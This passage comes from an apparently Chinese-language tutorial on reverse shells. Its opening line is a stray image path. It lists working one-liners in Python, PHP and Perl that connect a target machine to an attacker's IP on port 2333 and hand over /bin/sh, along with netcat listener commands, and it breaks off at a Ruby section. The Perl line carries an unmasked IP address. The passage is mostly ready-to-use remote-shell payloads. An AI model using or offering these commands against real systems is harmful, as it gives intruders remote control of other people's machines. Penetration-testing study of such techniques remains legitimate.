 ```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

执行效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NIHFaJ8EnRXy25veGNicic6crdGJ3zkrziabBAicrdB648lQZkWIWUFzE8g/640?wx_fmt=png)

### php 脚本反弹 shell

当目标主机上有 php 环境时，我们可以用 php 来反弹 shell。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Perl 脚本反弹 shell

当目标主机上有 perl 环境时，我们可以用 perl 来反弹 shell。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

执行效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NqGJKtSewWgazRYIibp4hyKFI387BKLs4HajcEKRfzMbntfZNcianGgbg/640?wx_fmt=png)

### Ruby 脚本反弹 shell

当目标主机上有 ruby 环境时，我们可以用 ruby 来反弹 shell。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**
